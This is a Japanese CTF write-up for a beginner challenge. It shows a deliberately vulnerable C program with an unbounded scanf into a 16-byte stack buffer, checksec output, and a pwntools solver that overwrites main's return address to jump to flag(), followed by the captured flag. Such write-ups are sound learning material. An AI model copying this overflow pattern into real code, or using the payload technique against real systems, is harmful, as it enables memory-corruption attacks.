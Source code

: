 ## Pwn Me Baby (153pt / 178 solves) [Beginner]
> Baby, please pwn me.
> 
> nc [問題鯖の接続情報]
>
> 添付ファイル: baby-pwn.zip

ワサワサしてきた。  
攻撃対象のバイナリとそのソースコードが与えられている。そのソースコードを以下に示す。
```c
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void flag(){
  char buf[128]={0};
  int fd=open("flag.txt",O_RDONLY);
  if(fd==-1){
    puts("Couldn't find flag.txt");
    return;
  }
  read(fd,buf,128);
  puts(buf);
}
int main(void){
  char buf[16];
  printf("I will receive a message and do nothing else:");
  scanf("%s",buf);
  return 0;
}

__attribute__((constructor)) void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}
```

典型的なBOFの問題だと分かる。  
checksecの結果は以下の通り。
```
[*] '/dist/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

PIEなし。ありがたい。よってこの問題の目標は`flag()`のアドレスを特定し、`main()`のリターンアドレスをBOFで書き換えることとなる。gdbなどのデバッガを使うと、`flag()`の開始アドレスは`0x401810`であるということと、`main()`の配列`buf`の開始アドレスからリターンアドレスが格納されている場所のアドレスまでのオフセットは`24`であるということが分かる。得られた情報から次に示すソルバを書いた。
```python
from pwn import *

io = remote(host, port)

flag_address = 0x401815

payload = b'A' * 24
payload += pack(flag_address)

io.sendlineafter('I will receive a message and do nothing else:', payload)
io.interactive()
```

変数`flag_address`が`0x401810`でないのは、そのままではスタックのアラインメントに引っ掛かるのか、上手くいかなかったからである。色々なアドレスを試した結果、`0x401815`に落ち着いた。
兎にも角にも、このソルバを実行するとフラグが得られた。
```
$ python3 poc.py 
[+] Opening connection to [host] on port [port]: Done
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
fwectf{bof_b0f_6of_60f}
I will receive a message and do nothing else:[*] Got EOF while reading in interactive
$
```

### `fwectf{bof_b0f_6of_60f}`